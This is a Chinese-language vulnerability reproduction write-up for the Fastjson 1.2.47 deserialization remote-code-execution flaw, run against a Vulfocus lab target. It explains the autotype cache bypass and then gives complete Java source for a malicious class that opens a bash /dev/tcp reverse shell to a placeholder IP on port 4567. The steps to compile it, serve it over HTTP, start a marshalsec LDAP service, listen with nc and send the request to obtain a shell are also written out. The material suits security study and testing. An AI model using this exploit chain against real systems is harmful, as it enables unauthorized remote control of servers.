









# Fastjson_1.2.47反序列化导致任意命令执行漏洞 by [fengyehack](https://github.com/fengyehack) 

## 漏洞描述

fastjson 是阿里巴巴的开源 JSON 解析库， 它可以解析 JSON 格式的字符串， 支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 Java Bean 。

Fastjson 提供了 autotype 功能， 允许用户在反序列化数据中通过 "@type" 指定反序列化的类型， 其次， Fastjson 自定义的反序列化机制时会调用指定类中的 setter 方法及部分 getter 方法， 那么当组件开启了 autotype 功能并且反序列化不可信数据时， 攻击者可以构造数据， 使目标应用的代码执行流程进入特定类的特定 setter 或者 getter 方法中， 若指定类的指定方法中有可被恶意利用的逻辑（也就是通常所指的 "Gadget" ）， 则会造成一些严重的安全问题。 并且在 Fastjson 1.2.47 及以下版本中， 利用其缓存机制可实现对未开启 autotype 功能的绕过。

## 漏洞影响版本

fastjson <= 1.2.47

## 漏洞复现

启动 Vulfocus 靶场的 fastjson1.2.47-rce




修改 java 恶意类代码保存为 Exploit.java

```java
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/IP/4567;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```


编译恶意类代码 javac Exploit.java 生成 Exploit.class


上传编译好的恶意类到服务器




然后使用 python -m SimpleHTTPServer 快速搭建 http 服务




使用 marshalsec 开启 ldap 服务



nc 监听




访问 FastJson 页面，使用 Burp 抓包，改为 POST 请求，使用 exp 反弹 shell




可以看到请求成功，加载了恶意类






成功拿到 shell



